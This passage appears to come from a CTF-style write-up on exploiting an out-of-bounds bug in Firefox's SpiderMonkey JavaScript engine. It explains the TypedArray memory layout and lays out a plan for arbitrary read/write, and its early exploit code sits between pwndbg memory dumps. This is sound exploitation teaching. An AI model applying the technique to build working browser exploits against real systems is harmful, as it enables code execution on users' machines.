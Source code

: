 An `ArrayBufferViewObject` has shape, objects, and elements pointers just like
a `NativeObject`. The memory that follows the elements pointers is the storage
for the TypedArray's _slots_, which in this case contain a pointer to an
ArrayBufferObject, the length of the TypedArray, the offset into the
ArrayBufferObject, and a pointer to the TypedArray's elements. The ArrayBuffer
and byte offset pointers aren't really relevant for this exploit so we'll ignore
them here. The data slot is what we really care about, and as you can see it
contains our (untagged) numbers:

```
pwndbg> x/4wx 0x7e2a52006d0
0x7e2a52006d0:	0x00000001	0x00000002	0x00000003	0x00000004
```

## Exploitation

Most, if not all JavaScript engine exploits follow a similar plan: gain arbitrary
read/write in the process' address space and the use that to overwrite some
executable code with shellcode or overwrite a code pointer and start a JOP/ROP
chain. We'll develop the exploit in the JavaScript shell and then make it work
in Firefox.

### Arbitrary R/W

So far the plan seems clear. We will use `Array.prototype.oob` to overwrite the
data pointer of a TypedArray and then use that to read and write to any address.

Let's start by allocating a regular array and a TypedArray. Most (all?) JavaScript
engines allocate objects in sequence, so if we allocate the array the typed
array one after the other they should be next to each other in memory.

```js
let a = new Array(1,2,3,4,5,6);
let b = new BigUint64Array(1);
```

```
pwndbg> tele 0x10a04c000698
00:0000│  0x10a04c000698 —▸ 0x3c159f560e20 —▸ 0x3c159f53b208 —▸ 0x555557650e10 (js::ArrayObject::class_) —▸ 0x55555574c0be ◂— ...
01:0008│  0x10a04c0006a0 —▸ 0x5555557672a8 (emptyObjectSlotsHeaders+8) ◂— 0x100000000
02:0010│  0x10a04c0006a8 —▸ 0x10a04c0006c0 ◂— 0xfff8800000000001
03:0018│  0x10a04c0006b0 ◂— 0x600000000
04:0020│  0x10a04c0006b8 ◂— 0x600000006
05:0028│  0x10a04c0006c0 ◂— 0xfff8800000000001
06:0030│  0x10a04c0006c8 ◂— 0xfff8800000000002
07:0038│  0x10a04c0006d0 ◂— 0xfff8800000000003
pwndbg> 
08:0040│  0x10a04c0006d8 ◂— 0xfff8800000000004
09:0048│  0x10a04c0006e0 ◂— 0xfff8800000000005
0a:0050│  0x10a04c0006e8 ◂— 0xfff8800000000006
0b:0058│  0x10a04c0006f0 —▸ 0x7ffff53ac910 —▸ 0x7ffff53ac000 —▸ 0x7ffff653b000 —▸ 0x7ffff5343000 ◂— ...
0c:0060│  0x10a04c0006f8 —▸ 0x3c159f564860 —▸ 0x3c159f53b280 —▸ 0x555557664960 (js::TypedArrayObject::classes+480) —▸ 0x55555574f29b ◂— ...
0d:0068│  0x10a04c000700 —▸ 0x5555557672a8 (emptyObjectSlotsHeaders+8) ◂— 0x100000000
0e:0070│  0x10a04c000708 —▸ 0x555555767280 (emptyElementsHeader+16) ◂— 0xfff9800000000000
0f:0078│  0x10a04c000710 ◂— 0xfffa000000000000
pwndbg> 
10:0080│  0x10a04c000718 ◂— 0x1
11:0088│  0x10a04c000720 ◂— 0x0
12:0090│  0x10a04c000728 —▸ 0x10a04c000730 ◂— 0x0
13:0098│  0x10a04c000730 ◂— 0x0
... ↓     4 skipped

pwndbg> distance 0x10a04c0006c0 0x10a04c000728
```